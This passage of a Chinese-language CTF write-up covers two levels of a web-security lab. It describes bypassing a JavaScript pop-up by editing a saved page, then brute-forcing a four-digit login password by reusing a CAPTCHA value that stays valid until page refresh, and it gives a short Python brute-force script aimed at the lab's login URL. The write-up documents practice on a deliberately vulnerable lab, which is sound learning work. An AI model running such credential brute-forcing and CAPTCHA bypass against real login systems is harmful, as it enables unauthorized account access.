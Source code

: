 前两个js函数导致弹窗的失败，试过把后面所要的代码放进到chrome中的console中运行，报错。然后就只能直接保存页面，删除文件里面的两个函数，直接打开。

<img src="/images/writeup4_2.png" />

Get key!

<h6>[第五关]</h6>

暴力破解4位纯数字的密码，但是有验证码。虽然python能自动识别验证码，但是应该也能有什么绕过的方法。
依旧是开启brup suite，对提交的数据进行获取，然后放进brup suite里面重复提交，偶然发现只要页面没有进行刷新，产生的验证码就一直有效。
既然是脚本关，那就得用脚本来解决问题。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'zp9p','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup5_1.png" />

Get key!
